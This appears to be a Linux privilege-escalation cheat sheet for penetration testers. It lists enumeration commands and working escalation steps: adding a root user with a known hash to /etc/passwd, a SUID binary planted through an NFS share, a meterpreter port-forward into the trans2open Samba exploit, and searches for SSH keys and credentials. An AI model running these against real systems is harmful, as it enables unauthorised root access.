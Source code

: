 https://sirensecurity.io/blog/linux-privilege-escalation-resources/

I just got a low-priv shell !
What would S1REN do right now?
python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Ctrl + Z [Background Process]
stty raw -echo ; fg ; reset
stty columns 200 rows 200


S1REN would say:
Various Capabilities?
which gcc
which cc
which python
which perl
which wget
which curl
which fetch
which nc
which ncat
which nc.traditional
which socat

Compilation? (Very Back Burner)
file /bin/bash
uname -a
cat /etc/*-release
cat /etc/issue


What Arch?
file /bin/bash

Kernel?
uname -a

Issue/Release?
cat /etc/issue
cat /etc/*-release

Are we a real user?
sudo -l
ls -lsaht /etc/sudoers

Are any users a member of exotic groups?
groups <user>


Check out your shell's environment variables...
env
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

Users?
cd /home/
ls -lsaht

Web Configs containing credentials?
cd /var/www/html/
ls -lsaht

SUID Binaries?
find / -perm -u=s -type f 2>/dev/null

GUID Binaries?
find / -perm -g=s -type f 2>/dev/null

SUID/GUID/SUDO Escalation:
https://gtfobins.github.io/

Binary/Languages with "Effective Permitted" or "Empty Capability" (ep):
https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities
Get Granted/Implicit (Required by a Real User) Capabilities of all files recursively throughout the system and pipe all error messages to /dev/null.
getcap -r / 2>/dev/null


We need to start monitoring the system if possible while performing our enumeration...
In other words:
"S1REN... Is privilege escalation going to come from some I/O file operations being done by some script on the system?"
https://github.com/DominicBreuker/pspy/blob/master/README.md
cd /var/tmp/
File Transfer --> pspy32
File Transfer --> pspy64
chmod 755 pspy32 pspy64
./pspy<32/64>

What does the local network look like?
netstat -antup
netstat -tunlp

Is anything vulnerable running as root?
ps aux |grep -i 'root' --color=auto

MYSQL Credentials? Root Unauthorized Access?
mysql -uroot -p
Enter Password:
root : root
root : toor
root :

S1REN would take a quick look at etc to see if any user-level people did special things:
cd /etc/
ls -lsaht
Anything other than root here?
• Any config files left behind?
→ ls -lsaht |grep -i ‘.conf’ --color=auto

• If we have root priv information disclosure - are there any .secret in /etc/ files?
→ ls -lsaht |grep -i ‘.secret’ --color=aut

SSH Keys I can use perhaps for even further compromise?
ls -lsaR /home/

Quick look in:
ls -lsaht /var/lib/
ls -lsaht /var/db/

Quick look in:
ls -lsaht /opt/
ls -lsaht /tmp/
ls -lsaht /var/tmp/
ls -lsaht /dev/shm/

File Transfer Capability? What can I use to transfer files?
which wget
which curl
which nc
which fetch (BSD)
ls -lsaht /bin/ |grep -i 'ftp' --color=auto

NFS? Can we exploit weak NFS Permissions?
cat /etc/exports
no_root_squash?
https://recipeforroot.com/attacking-nfs-shares/

[On Attacking Machine]
mkdir -p /mnt/nfs/
mount -t nfs -o vers=<version 1,2,3> $IP:<NFS Share> /mnt/nfs/ -nolock
gcc suid.c -o suid
cp suid /mnt/nfs/
chmod u+s /mnt/nfs/suid
su <user id matching target machine's user-level privilege.>

[On Target Machine]
user@host$ ./suid
#

Where can I live on this machine? Where can I read, write and execute files?
/var/tmp/
/tmp/
/dev/shm/

Any exotic file system mounts/extended attributes?
cat /etc/fstab

Forwarding out a weak service for root priv (with meterpreter!):
Do we need to get a meterpreter shell and forward out some ports that might be running off of the Loopback Adaptor (127.0.0.1) and forward them to any (0.0.0.0)? If I see something like Samba SMBD out of date on 127.0.0.1 - we should look to forward out the port and then run trans2open on our own machine at the forwarded port.
https://www.offensive-security.com/metasploit-unleashed/portfwd/

Forwarding out netbios-ssn EXAMPLE:
meterpreter> portfwd add –l 139 –p 139 –r [target remote host]
meterpreter> background
use exploit/linux/samba/trans2open
set RHOSTS 0.0.0.0
set RPORT 139
run

Can we write as a low-privileged user to /etc/passwd?
openssl passwd -1
i<3hacking
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.
echo 'siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash' >> /etc/passwd
su siren
id

Cron.
crontab –u root –l

Look for unusual system-wide cron jobs:
cat /etc/crontab
ls /etc/cron.*

Bob is a user on this machine. What is every single file he has ever created?
find / -user miguel 2>/dev/null

Any mail? mbox in User $HOME directory?
cd /var/mail/
ls -lsaht

Linpease:
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

Traitor:
https://github.com/liamg/traitor

GTFOBins:
https://gtfobins.github.io/

PSpy32/Pspy64:
https://github.com/DominicBreuker/pspy/blob/master/README.md
